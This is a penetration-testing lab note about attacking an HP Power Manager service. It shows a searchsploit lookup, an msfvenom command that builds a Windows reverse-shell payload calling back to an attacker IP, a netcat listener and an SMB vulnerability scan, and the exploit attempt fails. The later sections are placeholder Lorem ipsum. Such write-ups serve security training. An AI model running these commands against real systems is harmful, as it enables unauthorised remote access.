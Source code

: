 - Ran `searchsploit "HP Power Manager"` and identified potential exploit `10099.py`
![[Pasted image 20241024221345.png]]
- Reviewed `10099.py` code, then ran `msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.199 LPORT=80 -e x86/alpha_mixed -f c` to generate reverse shell for buffer overflow
![[Pasted image 20241025163857.png]]
- Copied buffer overflow into `10099.py` below "n00bn00b" line to replace existing code
![[Pasted image 20241025164015.png]]
- Saved `10099.py`, ran `nc -nvlp 80` to start netcat listener on port `80`, then ran exploit `python2 10099.py 192.168.171.45`
![[Pasted image 20241025164155.png]]
- No reverse shell received
![[Pasted image 20241025164223.png]]
## Port 135 - MSRPC (Windows RPC)

## Port 139 & 445 - SMB (Apache)
- Ran `sudo nmap --script smb-vuln* -p 139,445 192.168.242.45` and identified SMBv1 vulnerability (CVE-2017-0143)
![[Pasted image 20241024220205.png]]
## Port 3389 - RDP

## Port 49152-60 - MSRPC (Windows RPC)
---
# Exploitation
## Name of the technique
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Lateral Movement to user
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Lateral Movement vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---